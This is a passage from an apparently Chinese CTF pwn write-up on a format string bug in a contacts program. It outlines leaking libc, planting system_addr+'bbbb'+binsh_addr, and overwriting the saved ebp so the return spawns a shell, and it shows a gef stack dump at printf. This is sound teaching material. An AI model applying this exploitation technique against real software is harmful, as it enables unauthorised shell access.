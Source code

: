 基本思路如下

- 首先获取system函数的地址
  - 通过泄露某个libc函数的地址根据libc database确定。
- 构造基本联系人描述为system_addr+'bbbb'+binsh_addr
- 修改上层函数保存的ebp(即上上层函数的ebp)为**存储system_addr的地址-4**。
- 当主程序返回时，会有如下操作
  - move esp,ebp，将esp指向system_addr的地址-4
  - pop ebp， 将esp指向system_addr
  - ret，将eip指向system_addr，从而获取shell。

### 获取相关地址与偏移

这里我们主要是获取system函数地址、/bin/sh地址，栈上存储联系人描述的地址，以及PrintInfo函数的地址。

首先，我们根据栈上存储的libc_start_main_ret地址(该地址是当main函数执行返回时会运行的函数)来获取system函数地址、/bin/sh地址。我们构造相应的联系人，然后选择输出联系人信息，并将断点下在printf处，并且一直运行到格式化字符串漏洞的printf函数处，如下

```shell
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
───────────────────────────────────────────────────────────────────────────────────────[ stack ]────
['0xffffccfc', 'l8']
8
0xffffccfc│+0x00: 0x08048c27  →   leave 	 ← $esp
0xffffcd00│+0x04: 0x0804c420  →  "1234567"
0xffffcd04│+0x08: 0x0804c410  →  "11111"
0xffffcd08│+0x0c: 0xf7e5acab  →  <puts+11> add ebx, 0x152355
0xffffcd0c│+0x10: 0x00000000
0xffffcd10│+0x14: 0xf7fad000  →  0x001b1db0
0xffffcd14│+0x18: 0xf7fad000  →  0x001b1db0
0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000	 ← $ebp
──────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0xf7e44670 → Name: __printf(format=0x804c420 "1234567\n")
[#1] 0x8048c27 → leave 
[#2] 0x8048c99 → add DWORD PTR [ebp-0xc], 0x1
[#3] 0x80487a2 → jmp 0x80487b3
[#4] 0xf7e13637 → Name: __libc_start_main(main=0x80486bd, argc=0x1, argv=0xffffce14, init=0x8048df0, fini=0x8048e60, rtld_fini=0xf7fe88a0 <_dl_fini>, stack_end=0xffffce0c)
[#5] 0x80485e1 → hlt 
────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  dereference $esp 140
['$esp', '140']
1
0xffffccfc│+0x00: 0x08048c27  →   leave 	 ← $esp
gef➤  dereference $esp l140
['$esp', 'l140']
140
0xffffccfc│+0x00: 0x08048c27  →   leave 	 ← $esp
0xffffcd00│+0x04: 0x0804c420  →  "1234567"
0xffffcd04│+0x08: 0x0804c410  →  "11111"
0xffffcd08│+0x0c: 0xf7e5acab  →  <puts+11> add ebx, 0x152355
0xffffcd0c│+0x10: 0x00000000
0xffffcd10│+0x14: 0xf7fad000  →  0x001b1db0
0xffffcd14│+0x18: 0xf7fad000  →  0x001b1db0
0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000	 ← $ebp
0xffffcd1c│+0x20: 0x08048c99  →   add DWORD PTR [ebp-0xc], 0x1
0xffffcd20│+0x24: 0x0804b0a8  →  "11111"
0xffffcd24│+0x28: 0x00002b67 ("g+"?)
```